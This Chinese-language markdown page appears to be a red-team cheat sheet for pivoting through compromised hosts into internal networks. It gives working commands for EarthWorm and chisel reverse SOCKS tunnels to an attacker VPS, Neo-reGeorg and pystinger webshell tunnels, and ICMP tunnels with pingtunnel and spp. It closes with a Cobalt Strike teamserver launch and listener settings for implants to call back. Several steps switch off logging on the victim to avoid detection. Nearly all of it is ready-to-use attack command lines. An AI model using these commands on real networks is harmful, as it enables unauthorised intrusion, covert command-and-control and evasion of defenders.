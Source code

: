 

[TOC]



# EarthWorm内网穿透

## 正向socks5服务器

当目标网络边界存在公网IP且可任意开监听端口 

```bash
./ew_linux_x64 -s ssocksd -l 1080
```

可在该目标机器上开启一个8888的正向连接，然后其他主机可通过SwitchyOmega设置socks5代理为目标主机ip:1080 ，添加这个代理就可以使用了

## 反向socks5服务器

### 服务器（外网vps）

```bash
./ew_linux_x64 -s rcsocks -l 1080 -e 5555
```

解释：把1080端口收到的请求转发给5555端口。

### 目标主机

通过CS把ew传到目标主机上，在指定目录输入命令`ew_win32.exe -s rssocks -d vpsip -e 5555`

```bash
shell C:\Users\admin\Downloads\ew\release\ew_win32.exe -s rssocks -d 192.168.211.129 -e 5555
```

解释：在目标主机启动服务，反弹到公网主机的5555端口。

通过SwitchyOmega设置socks5代理为vps的ip:1080挂上代理就成功了，可以访问内网了。

# chisel（http协议）

vps上执行

```bash
./chisel server -p 6666 -reverse
```

获取密钥，再到肉鸡上执行`chisel client -fingerprint 密钥 -v vps地址:端口 R:0.0.0.0:13389:127.0.0.1:肉鸡想映射的端口`

```cmd
C:\Users\root\Desktop\icmp代理>chisel.exe client -fingerprint DiGhDFpt5cE+hqJb+plMzB5HyJIKYXTKfXA2L75WWGU= -v 192.168.211.129:6666 R:0.0.0.0:13389:127.0.0.1:80
```

成功后，访问vps的13389端口就是肉鸡80端口

# Neo-reGeorg

生成有密码的webshell并上传到WEB服务器`python neoreg.py generate -k 密码`

```bash
python3 neoreg.py generate -k password
```

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理`python neoreg.py -k 密码 -u http://肉鸡ip/tunnel.php`

```bash
python3 neoreg.py -k password -u http://192.168.211.140/tunnel.php
```

默认在本地1080端口，通过SwitchyOmega设置socks5代理为127.0.0.1:1080挂上代理，访问127.0.0.1就是web服务器（隧道只能本地访问）

# 伪装成icmp出网

## 利用ew和pingtunnel

### 服务器（外网vps）

把10080端口收到的请求转发给8898端口。

```bash
./ew_for_linux -s rcsocks -l 10080 -e 8898
```

开启pingtunnel服务端

```bash
./pingtunnel -type server
```

### 目标主机

把ew、pingtunnel传到目标主机上，在指定目录输入命令，注意要先提权system

在目标主机启动pingtunnel服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`pingtunnel.exe -type client -l 127.0.0.1:9999 -s vps -t vps:8898 -sock5 -1 -noprint 1 -nolog 1`，如果客户端与服务器不能连接可以通过`sysctl -w net.ipv4.icmp_echo_ignore_all=1`关闭本地icmp应答

```cmd
C:\Users\root\Desktop\内网代理>pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.211.129 -t 192.168.211.129:8898 -sock5 -1 -noprint 1 -nolog 1
```

在目标主机启动ew服务

```cmd
C:\Users\root\Desktop\内网代理>ew_for_win_32.exe -s rssocks -d 127.0.0.1 -e 9999
```

通过SwitchyOmega设置socks5代理为vps的ip:10080挂上代理就成功了，可以访问内网了。

## 利用spp

### cs服务器（外网vps）

开启spp服务端

```bash
./spp -type server -proto ricmp -listen 0.0.0.0
```

### 目标主机

通过CS把spp.exe传到目标主机上，在指定目录输入命令

在目标主机启动spp服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`spp.exe -name "test" -type proxy_client -server vpsip -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1`

```cmd
C:\Users\root\Desktop\内网代理>spp.exe -name "cs" -type proxy_client -server 192.168.211.129 -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1
```

### cs设置监听

设置监听127.0.0.1:8082和vpsip:8081，生成对应ssp-127木马上线

# 伪装成http出网

Step1.肉鸡上开启pystinger服务端：

```cmd
C:\Users\root\Desktop\内网代理\dist>stinger_server.exe 0.0.0.0
```

Step2.上传webshell到肉鸡web目录：

Step3.vps上开启pystinger客户端：`./stinger_client -w http://肉鸡ip/proxy.php -l 127.0.0.1 -p 60000`

```bash
./stinger_client -w http://192.168.211.140/proxy.php -l 127.0.0.1 -p 60000
```

vps启动cs，cs连接

```bash
./teamserver vpsip 密码 ./malleable-c2-master/jquery-c2.4.3.profile
```

出网肉鸡：

监听都写127.0.0.1，端口60020，生成对应木马上线

不出网肉鸡：

监听都写肉鸡内网IP地址，端口60020，生成对应木马上线